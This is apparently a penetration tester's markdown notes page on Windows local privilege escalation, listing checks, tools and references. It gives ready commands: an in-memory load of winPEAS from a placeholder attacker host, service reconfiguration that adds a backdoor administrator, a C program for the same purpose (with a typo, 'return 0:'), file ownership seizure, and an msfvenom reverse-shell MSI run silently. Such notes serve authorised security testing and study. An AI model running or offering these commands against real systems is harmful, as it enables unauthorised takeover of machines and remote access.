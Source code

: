 ```yaml
---
title: Windows Privilege Escalation
---
```


Local [[notes/mitre-attack/privilege-escalation]] on [[notes/windows/index]].

Common checks ([source](http://web.archive.org/web/20230804173720/https://scribe.rip/@specterops/challenges-in-post-exploitation-workflows-2b3469810fe9)):

- processes including integrity levels and backing file
- service with unquoted service path
- service with writable backing file
- service with insecure security descriptor
- scheduled task with writable backing file
- named pipes including originating processes and SDDLs
- open TCP/UDP ports and their originating processes
- drivers currently installed, including backing files
- existing handles with overly permissive access rights
- recent temporary files and their SDDL
- various registry settings

Run a ton of checks.

=== "[[notes/tools/winpeas]]"
    ~~~ powershell
    $a=[System.Reflection.Assembly]::Load([byte[]](iwr -useb 'http://attacker.corp.local/winpeas.exe' | Select-Object -ExpandProperty Content))
    [winPEAS.Program]::Main('wait')
    ~~~

=== "[[notes/tools/privesccheck]]"
    ~~~ ps1
    import-module .\PrivescCheck.ps1
    Invoke-PrivescCheck
    ~~~

Test if credentials are valid.

~~~ powershell
$c = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList '.\nobody',(ConvertTo-SecureString -AsPlainText -Force 'passw0rd')
Start-Process -Credential $c -FilePath whoami.exe -ArgumentList '/all' -WindowStyle hidden -Wait -RedirectStandardOutput out.txt -RedirectStandardError err.txt
~~~

Other tools:

- [Seatbelt](https://github.com/GhostPack/Seatbelt)

Untested tools:

- [PipeViewer](https://github.com/cyberark/PipeViewer), shows detailed information about named pipes on Windows
- [Crassus](https://github.com/vullabs/Crassus)
- [SharpUp](https://github.com/ghostpack/sharpup), C# port of various [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) functions
- [beroot](https://github.com/AlessandroZ/BeRoot)
- [Windows Exploit Suggester Next Generation ](https://github.com/bitsadmin/wesng), checks Windows version for known vulnerabilities, processes output of `systeminfo` on Linux
- [ProtectionChecks.ps1](https://gist.github.com/jsecurity101/6b9e87f5a428f31d41ffc8c1ee05a999), checks whether a process is running as PPL

References:

- [Windows Local Privilege Escalation Cookbook](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook#vulnerabilities)
- [book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)
- [exploit-notes.hdks.org/exploit/windows/privilege-escalation](https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/)
- [Escalating Privileges via Third-Party Windows Installers](https://web.archive.org/web/20230720190244/https://www.mandiant.com/resources/blog/privileges-third-party-windows-installers)
- [The Print Spooler Bug that Wasn’t in the Print Spooler - Maddie Stone & James Forshaw - OffensiveCon23](https://www.youtube.com/watch?v=H03b0UaogVs), exploiting Windows side-by-side assemblies
- [Awesome Windows logical bugs](https://github.com/sailay1996/awesome_windows_logical_bugs)
- [Payloads all the Things - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

# Insecure File Permissions

Search with [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) for writable files.

~~~ bat
accesschk.exe -accepteula -nobanner -u -w -s $env:USERNAME C:\
~~~

Especially check writable files and directories in the system path.
This can be exploited with e.g. [StorSvc](https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc).

~~~ bat
reg.exe query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path
~~~

Check the permissions the current user has on a file.

=== "builtin"
    ~~~ bat
    icacls.exe "C:\Program Files\Example\Service.exe"
    ~~~

    An output like `BUILTIN\Users:(I)(F)` is quiet bad, it means any user can overwrite it.

    Mask | Permissions
    -----|------------
    F    | Full access
    M    | Modify access
    RX   | Read and execute access
    R    | Read-only access
    W    | Write-only access

=== "PowerShell"
    ~~~ powershell
    Get-Acl "C:\Program Files\Example\Service.exe"
    ~~~

Take file ownership and grant yourself full access.

~~~ bat
takeown.exe /F .\example.exe
cacls.exe .\example.exe /E /G %USERNAME%:F
~~~

Untested tools:

- [UserWritableLocations.ps1](https://gist.github.com/hinchley/ade9528e5ce986e9a8131489ad852789)
- [find_writable.ps1](https://github.com/0xC0D1F1ED/find_writable_files/blob/master/find_writable.ps1)

# Services

Get the current service status including the PID.

~~~ bat
sc.exe queryex snmptrap
~~~

Get the current service configuration.

~~~ bat
sc.exe qc snmptrap
~~~

References:

- [Demystifying Windows Service permissions configuration](http://web.archive.org/web/20230610210019/https://decoder.cloud/2019/02/07/demystifying-windows-service-permissions-configuration/)

## Insecure Service Security Descriptor

Set the account to `NT Authority\System`.

~~~ bat
sc.exe config snmptrap obj= "NT AUTHORITY\System"
~~~

Then change the executable to a command that adds a local admin.

~~~ bat
sc.exe config snmptrap binPath= "cmd.exe /c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"
~~~

References:

- [Viewing Service ACLs](https://web.archive.org/web/20230131040322/https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/)

## Unquoted Service Path

The service must have a space in the absolute path to its executable and the path must not be enclosed in quotation marks.
Given the path `C:\Program Files\My Program\My Service\service.exe` check if you can write any of the following files:

~~~
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
~~~

If that's the case, place your malicious binary there and wait for the service to restart.

## Writable Service Binary

Replace the service binary with an executable that adds a new local admin.

`./evil.c`:

~~~ c
#include <stdlib.h>

int main() {
  system("net user backdoor passw0rd /add");
  system("net localgroup administrators backdoor /add");
  return 0:
}
~~~

If you have `SeShutdownPrivilege` reboot the system, otherwise wait for the service to restart.

~~~ bat
shutdown.exe /r /t 0
~~~

## Writable Service Registry Keys

User can modify registry keys of a service ([source](http://web.archive.org/web/20231004130556/https://0xdf.gitlab.io/2020/04/25/htb-control.html))

~~~ bat
accesschk.exe %USERNAME% -kwsu HKLM\System\CurrentControlSet\Services
~~~

References:

- [Windows RpcEptMapper Service Insecure Registry Permissions EoP](http://web.archive.org/https://itm4n.github.io/windows-registry-rpceptmapper-eop/), unpatched in Windows Server 2008

# Always Install Elevated

If the `AlwaysInstallElevated` registry key is set to `1`, unprivileged users can run MSI installers with admin privileges.

~~~ bat
reg.exe query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg.exe query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
~~~

Generate a reverse shell payload.

~~~ bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.196 LPORT=7101 -f msi -o ./pwn.msi
~~~

Execute the MSI.

~~~ bat
msiexec.exe /quiet /qn /i .\pwn.msi
~~~

# Point and Print Misconfiguration

Check for Point and Print configurations that reintroduce variants of the PrintNightmare vulnerability ([source](https://github.com/LuemmelSec/Client-Checker/blob/main/Client-Checker.ps1)).

~~~ ps1
$value = Get-ItemPropertyvalue -Path 'HKLM:\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint' -Name 'RestrictDriverInstallationToAdministrators' -ErrorAction SilentlyContinue
if ($value -eq 0) {
    Write-Host 'vulnerable! users can install package aware printer drivers'
}
$value = Get-ItemPropertyvalue -Path 'HKLM:\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint' -Name 'NoWarningNoElevationOnInstall' -ErrorAction SilentlyContinue
if ($value -eq 0) {
    Write-Host 'vulnerable! users can install non package aware printer drivers for new connections'
}
$value = Get-ItemPropertyvalue -Path 'HKLM:\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint' -Name 'UpdatePromptSettings' -ErrorAction SilentlyContinue
if ($value -eq 1 -or $value -eq 2) {
    Write-Host 'vulnerable! users can install non package aware printer drivers for updated connections'
}
~~~

References:

- [A Practical Guide to PrintNightmare in 2024](http://web.archive.org/web/20240128231552/https://itm4n.github.io/printnightmare-exploitation/)
